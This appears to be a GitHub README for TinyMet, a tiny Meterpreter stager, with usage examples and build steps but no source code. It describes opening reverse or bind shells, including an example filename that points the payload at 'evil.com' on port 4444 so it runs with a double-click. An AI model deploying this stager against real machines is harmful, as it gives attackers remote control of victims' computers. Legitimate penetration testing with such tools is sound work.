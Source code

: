 TinyMet
=======
TinyMet is a tiny “4.5 kilobytes” flexible meterpreter stager, which supports multiple meterpreter transports, setting LPORT and LHOST during runtime.

Transport, LPORT and LHOST are set during runtime through either of the following:
- Command line arguments.
- Naming the .exe file in a special way. 

What's new in v0.2:
-------------------
- Now tinymet can parse the Transport, LPORT and LHOST from its own filename through separating them by underscore
-   Example: "0_evil.com_4444.exe" will use reverse_tcp, LHOST=evil.com, LPORT=4444 
- This makes tinymet more (double-click/payload-like/argument-less) friendly.

----

Available transports are as follows:
- 0: reverse_tcp
- 1: reverse_http
- 2: reverse_https
- 3: bind_tcp

<strong>Usage#1:</strong>
```
tinymet.exe TRANSPORT LHOST LPORT

Example:
"tinymet.exe 2 host.com 443" Will use reverse_https and connect to host.com:443
```

<strong>Usage#2:</strong> name the file using the folowing convention and run without args:
```
TRANSPORT_LHOST_LPORT.exe

Example:
Setting the filename to "2_host.com_443.exe" and running it without args will do exactly the same as Example#1.
```

---

Please visit http://tinymet.com for details.

Compiling from source

    Install masm32 in c:\masm32 “I’m using its msvcrt.lib”
    Install Microsoft Visual Studio Express 2013 for Windows Desktop (VS 2015 WILL NOT WORK IF YOU DO NOT HAVE 2013,  they changed the compiler in 2015)
    Clone TinyMet from Github, or just download the latest version as zip.
    Open the solution, chose “Release”, click build “F7”.


